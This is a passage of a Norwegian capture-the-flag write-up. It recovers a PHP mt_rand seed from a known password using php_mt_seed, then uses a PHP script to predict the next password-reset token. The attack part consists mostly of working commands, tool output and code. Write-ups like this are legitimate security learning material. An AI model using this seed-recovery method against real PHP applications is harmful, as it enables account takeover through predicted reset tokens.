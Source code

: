![alt text](images/web/rewind/image.png)

Framgangsmåten for å knekke passordet er beskrevet i denne artikkelen: [whiteknightlabs.com](https://whiteknightlabs.com/2024/06/14/exploiting-gh-13690-mt_rand-in-php-in-2024/#_ftnref2)

Vi ønsker å bruke [php_mt_seed](https://github.com/openwall/php_mt_seed) for å knekke sekvensen. Først formaterer vi den genererte teksten vi allerede har slik at den kan brukes i verktøyet:

```py
chars = "ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz23456789"

for c in "YcHGHRG2YYubEqZZ":
    print(" ",chars.find(c), chars.find(c),"0","56",end="")
```

Så knekker vi sekvensen med verktøyet lastet ned fra githubrepoet:

```bash
./php_mt_seed 22 22 0 56  26 26 0 56  [...]  23 23 0 56  23 23 0 56
Pattern: EXACT-FROM-57 EXACT-FROM-57 [...] EXACT-FROM-57 EXACT-FROM-57
Version: 3.0.7 to 5.2.0
Found 0, trying 0xfc000000 - 0xffffffff, speed 95.2 Mseeds/s 
Version: 5.2.1+
Found 0, trying 0x8a000000 - 0x8bffffff, speed 1.3 Mseeds/s 
seed = 0x8ac10722 = 2327906082 (PHP 7.1.0+)
Found 1, trying 0x92000000 - 0x93ffffff, speed 1.3 Mseeds/s
```

Lagde så et script som kunne ta generere neste passord med en gitt seed.

```php
function random_password($pass_len) {
    // Skip letters and numbers that are visually similar
    $charset = 'ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz23456789';
    $charset_len = strlen($charset) - 1;
    $password = '';
  
    for ($i = 0; $i < $pass_len; $i++) {
      $password .= $charset[mt_rand(0, $charset_len)];
    }
    return $password;
}
// Set the seed for the random number generator
srand(2327906082);
echo ("current token is :" . random_password(16)." \n");

echo ("target reset token password is " . random_password(16) . " \n")
```


<details><summary>Flagg</summary></details>


## ssurfing da web

### Oppgave
